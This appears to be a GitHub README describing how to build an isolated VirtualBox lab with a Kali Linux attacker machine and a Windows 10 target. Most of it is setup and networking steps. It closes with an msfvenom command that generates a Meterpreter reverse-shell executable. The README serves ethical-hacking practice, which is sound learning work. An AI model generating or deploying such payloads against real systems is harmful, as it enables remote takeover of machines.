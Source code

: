 # 🧪 Cybersecurity Home Lab Setup 
---

## 📄 Description

This project sets up a virtualized cybersecurity lab using VirtualBox to simulate attacker-victim scenarios. It includes configuring a Kali Linux attacker machine and a Windows 10 target machine on a host-only/internal network. The environment provides a safe and isolated setup for testing network attacks, reverse shells, and other ethical hacking techniques.

---

## 🖥️ Environments Used

- **Host OS**: Windows 10 or macOS
- **Virtualization**: VirtualBox (v7.x) + Extension Pack
- **Attacker VM**: Kali Linux
- **Target VM**: Windows 10 (Eval or ISO)

---

## 🛠️ Languages and Tools Used

- VirtualBox
- Kali Linux Tools (nmap, msfvenom, etc.)
- Windows Sysinternals
- Meterpreter (Metasploit Framework)

---

## ⚙️ Program Walkthrough

---

### 1. Install VirtualBox & Extension Pack

Install Oracle VirtualBox and its Extension Pack from [virtualbox.org](https://www.virtualbox.org/).

📸 *Screenshot Example:*  
![VirtualBox Installed](./screenshots/virtualbox-launch.png)

---

### 2. Create Virtual Machines

Create two VMs with these specs:

| VM        | RAM    | Disk Size | OS         |
|-----------|--------|-----------|------------|
| Kali      | 2 GB   | 20 GB     | Kali Linux |
| Windows   | 4 GB   | 40+ GB    | Windows 10 |

📸 *Screenshot Example:*  
![VM Creation](./screenshots/vm-creation.png)

---

### 3. Configure Network (Host-Only)

Set both VMs to the **Host-Only Adapter** to allow isolated communication.

📸 *Screenshot Example:*  
![Network Config](./screenshots/network-config.png)

---

### 4. Boot VMs and Set IP Addresses

Use `ip a` on Kali and `ipconfig` on Windows to confirm both VMs are on the same subnet.

📸 *Screenshot Example:*  
![Kali IP](./screenshots/kali-ip.png)  
![Windows IP](./screenshots/windows-ip.png)

---

### 5. Install Guest Additions (Windows Only)

Fix resolution on Windows VM by installing Guest Additions.

📸 *Screenshot Example:*  
![Guest Additions](./screenshots/guest-additions.png)

---

### 6. Test Connectivity

Ping each machine from the other to confirm they’re connected.

📸 *Screenshot Example:*  
![Ping Test](./screenshots/ping-test.png)

---

### 7. Generate & Deploy Payload (Optional Preview)

In later parts, we generate a reverse shell using `msfvenom`:

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.56.101 lport=4444 -f exe > shell.exe
